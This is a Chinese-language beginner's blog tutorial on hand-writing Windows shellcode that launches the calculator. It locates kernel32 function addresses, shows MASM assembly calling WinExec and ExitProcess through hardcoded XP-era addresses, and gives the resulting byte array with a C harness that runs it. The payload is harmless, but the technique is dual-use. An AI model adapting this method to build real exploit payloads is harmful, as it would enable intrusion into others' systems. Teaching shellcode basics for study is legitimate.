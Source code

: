 ```yaml
---
layout: post
title:  "Launch calc through shellcode"
subtitle: "弹出计算器程序的 shellcode"
date:   2015-04-15 15:25:23 +0800
categories: [geekin]
---
```


简单地讲，ShellCode就是一段01二进制的机器码，试图利用软件中的漏洞完成自己想做的事情。ShellCode的编写需要考虑和顾及的东西很多，这里先写一个适合新手的范例。

* 需要的预备知识：

	1. 汇编语言（尤其要清楚了解函数是如何调用的）

	2. PE文件格式（可参考《Windows PE 权威指南》一书）

	3. 一点点WinAPI函数

* 使用的工具软件：

	1. MASM32

	2. Stud_PE

	3. OllyDBG

### 一、用C语言写出弹出计算器的代码
```c
LoadLibrary("kernel32.dll");
WinExec("calc.exe", 5);
ExitProcess(0);
```

### 二、找到这些函数函数的虚拟内存地址
WinExec()和ExitProcess()都是kernel32.dll中的函数，使用Stud_PE查看kernel32.dll的相关信息

![](/images/shellcode00.png)

这里我们注意到kernel32.dll的映像基址为0x7C800000，也就是说系统在加载kernel32.dll的时候，会将其加载到虚拟内存为0x7C800000的位置。

接着查看kernel32.dll中的函数的偏移地址，偏移地址+映像基址=函数在虚拟内存中的地址

![](/images/shellcode01.png)

可以看到WinExec()函数的偏移地址为0x000623AD，所以WinExec()在虚拟内存中的地址为0x7C8623AD，同理得到ExitProcess()的地址为0x7C81CAFA。

事实上一般的PE文件都会加载kernel32.dll，user32.dll，ntdll.dll等动态链接库，所以我们不必要调用LoadLibrary("kernel32.dll")，不过当我们的ShellCode需要使用到其他动态链接库的时候，如ws2_32.dll等，LoadLibrary()函数是必须的，故也将其地址找到：0x7C801D7B。

注：在实际的ShellCode编写中，函数的地址与操作系统的版本有关，故需要使用其他的技巧，这里只是写一个简单的范例。

### 三、将C语言转化为汇编语言

使用MASM编写编译

```
.386
    .model flat,stdcall
    option casemap:none

include     windows.inc
include     user32.inc
includelib  user32.lib
include     kernel32.inc
includelib  kernel32.lib

    .code
start:
    ;push ebp
    ;mov ebp,esp

    ;LoadLibrary("kernel32.dll");
    ;xor eax,eax
    ;push eax
    ;mov eax,6C6C642Eh   ;".dll"
    ;push eax
    ;mov eax,32336C65h   ;"el32"
    ;push eax
    ;mov eax,6E72656Bh   ;"kern"
    ;push eax
    ;mov eax,esp
    ;push eax            ;Arg1 = "kernel32.dll"
    ;mov eax,7C801D7Bh   ;kernel32.LoadLibrary
    ;call eax

    ;WinExec("calc.exe", 5);
    xor eax,eax
    push eax
    mov eax,6578652Eh   ;".exe"
    push eax
    mov eax,636C6163h   ;"calc"
    push eax
    mov eax,esp
    push 5              ;Arg2 = SW_SHOW
    push eax            ;Arg1 = "calc.exe"
    mov eax,7C8623ADh   ;kernel32.WinExec
    call eax

    ;ExitProcess(0);
    xor eax,eax
    push eax            ;Arg1 = 0
    mov eax,7C81CAFAh   ;kernel32.ExitProcess
    call eax

    ;mov esp,ebp
    ;pop ebp
end start
```

注意到把LoadLibrary()函数注释掉了，这不影响这一段代码的执行

### 四、完成ShellCode

编译完成后可以使用OllyDbg调试。

使用十六进制编辑器打开EXE文件，找到代码段

![](/images/shellcode02.png)

剩下的工作就简单了

```c
//LoadLibraryA("kernel32.dll");
//WinExec("calc.exe",SW_SHOW);

unsigned char shellcode[68] = {
    0x33, 0xC0, 0x50, 0xB8, 0x2E, 0x64, 0x6C, 0x6C, 
    0x50, 0xB8, 0x65, 0x6C, 0x33, 0x32, 0x50, 0xB8, 
    0x6B, 0x65, 0x72, 0x6E, 0x50, 0x8B, 0xC4, 0x50, 
    0xB8, 0x7B, 0x1D, 0x80, 0x7C, 0xFF, 0xD0, 0x33, 
    0xC0, 0x50, 0xB8, 0x2E, 0x65, 0x78, 0x65, 0x50, 
    0xB8, 0x63, 0x61, 0x6C, 0x63, 0x50, 0x8B, 0xC4, 
    0x6A, 0x05, 0x50, 0xB8, 0xAD, 0x23, 0x86, 0x7C, 
    0xFF, 0xD0, 0x33, 0xC0, 0x50, 0xB8, 0xFA, 0xCA, 
    0x81, 0x7C, 0xFF, 0xD0
};

int main()
{
    __asm
    {
        lea eax,shellcode;
        call eax;
    }
    return 0;
}
```
